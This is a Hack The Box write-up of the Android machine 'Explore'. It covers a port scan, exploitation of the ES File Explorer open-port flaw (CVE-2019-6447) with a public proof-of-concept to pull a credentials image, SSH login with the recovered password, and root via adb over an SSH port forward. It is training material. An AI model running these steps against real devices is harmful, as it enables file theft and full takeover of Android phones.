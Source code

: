 ```yaml
---
layout: post
title: HTB Explore Writeup  
subtitle: Easy Box
thumbnail-img: /assets/img/explore.png.png
tags: [HTB]
---
```


# Notes
![Explore](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/explore.png.png)


| Name | Explore |
| :------ |:--- |
| OS | Android |
| RELEASE DATE | 26 Jun 2021 |
| DIFFICULTY | Easy |

IP:10.10.10.247

## Port Scan
```
PORT      STATE    SERVICE                                                                                            
2222/tcp  open     EtherNetIP-1                                                                                       
5555/tcp  filtered freeciv                                                                                            
39773/tcp open     unknown                                                                                            
42135/tcp open     unknown                                                                                            
59777/tcp open     unknown 

```
## Port 2222
SSH-2.0-SSH Server - Banana Studio 

## Port 5555
This port is being used by Android Debug Bridge (adb) and is filtered

## Port 59777
A quick google search showed that port 59777 is used by ES File Explorer. ES File Explorer is a file manager/explorer for android devices. It looks like there is a CVE for ES File Explorer CVE:2019-6447, I used a poc script I found on github https://github.com/fs0c131y/ESFileExplorerOpenPortVuln. This script lets me list and download files off the device.

There was a great write up of this bug https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566 

Using the tool I was able to find a file called "creds.jpg"

```
┌──(root💀kali)-[~/htb/explore]
└─# python3 poc.py --cmd listPics --ip 10.10.10.247 
[*] Executing command: listPics on 10.10.10.247
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}

```

I downloaded it

```
┌──(root💀kali)-[~/htb/explore]
└─# python3 poc.py -g /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247 
[*] Getting file: /storage/emulated/0/DCIM/creds.jpg
        from: 10.10.10.247
[*] Server responded with: 200
[*] Writing to file: creds.jpg
                               
```

It was a picture of some credentials `kristi:Kr1sT!5h@Rp3xPl0r3!`

## User Shell

I was able to ssh into it by using the credentials found 

```
┌──(root💀kali)-[~/htb]
└─# ssh -p 2222 kristi@10.10.10.247
Password authentication
Password: 
```

Looking inside `/sdcard` I found the user flag

## Root
Back when I did my nmap scan port 5555 was running adb. Now that we have a valid ssh session we can port forward back to kali and access adb

I found the commands for abd here https://adbshell.com/

Port forward
`ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555`

Connect to abd
`adb connect 127.0.0.1:5555`

We can restart the adb service as root
`adb root`

From there adb is running with high privs so we can drop into a shell and su to root
```
──(root💀kali)-[~/htb]
└─# adb shell                                                                                                                                                                                                                            1 ⨯
x86_64:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
x86_64:/ $ su
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0

```
